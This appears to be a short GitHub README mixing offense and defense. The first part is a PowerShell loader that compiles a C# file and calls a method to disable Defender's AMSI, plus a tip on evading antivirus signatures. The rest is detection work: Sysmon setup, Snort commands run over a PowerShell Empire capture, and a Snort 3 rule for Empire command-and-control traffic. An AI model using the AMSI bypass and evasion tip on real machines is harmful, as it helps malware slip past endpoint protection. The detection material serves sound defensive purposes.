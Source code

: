 for education purpose only!

#Bypass Defender AV AMSI.dll

Add-Type -TypeDefinition ([IO.File]::ReadAllText("$pwd\Source.cs")) -OutputAssembly "Source.dll"
[Reflection.Assembly]::Load([IO.File]::ReadAllBytes("$pwd\\Source.dll"))
[BP.AMS]::Disable()

#If your AV blocks the source.dll file , you only need to add comment like // to your source.cs, its will bypass AV signatures test. 


#detect powershell process using sysmon and wazuh

Sysmon64.exe -accepteula -i sysconfig.xml

#detect powershell empire using snort :

analyze pcap with snort
snort -c /usr/local/etc/snort/snort.lua -r /home/sysadmin/pcap/http_powershell_empire.pcap -Acmg -k none -q # check packets processing by snort.

![image](https://user-images.githubusercontent.com/92370823/148438040-ae3a9a3f-17fe-4987-83e4-d44f7ae87e39.png)

#our snort3 rule, detect powerhellempire cnc malware connection.

alert http (
        msg:"PowerShellEmpire was detected";
        flow:to_server,established;
        http_uri:path;
        content:"/login/process.php",nocase;
        http_header;
        content:"Mozilla/5.0 (Windows NT 6.1; WOW64; Trident/7.0; rv:11.0) like Gecko",nocase;
        http_cookie;
        content:"session",nocase;
        reference:url,attack.mitre.org/techniques/T1086;
        reference:url,powershellempire.com;
        classtype:trojan-activity;
        sid:56465; rev:5;
)

#snort 3 Buffers
#http_inspect::http_client_body
#http_inspect::http_cookie
#http_inspect::http_header
#http_inspect::http_method
#http_inspect::http_param
#http_inspect::http_raw_body
#http_inspect::http_raw_cookie
#http_inspect::http_raw_header
#http_inspect::http_raw_request
#http_inspect::http_raw_status
#http_inspect::http_raw_trailer
#http_inspect::http_raw_uri
#http_inspect::http_stat_code
#http_inspect::http_stat_msg
#http_inspect::http_trailer
#http_inspect::http_true_ip
#http_inspect::http_uri
#http_inspect::http_version
#http_inspect::js_data
#http_inspect::vba_data

snort -c /usr/local/etc/snort/snort.lua -r /home/sysadmin/pcap/http_powershell_empire.pcap -Acmg 
![image](https://user-images.githubusercontent.com/92370823/148611213-23ffb093-cd89-447e-ae07-c61640ae1a48.png)


you can read more about it on https://smartiot.co.il


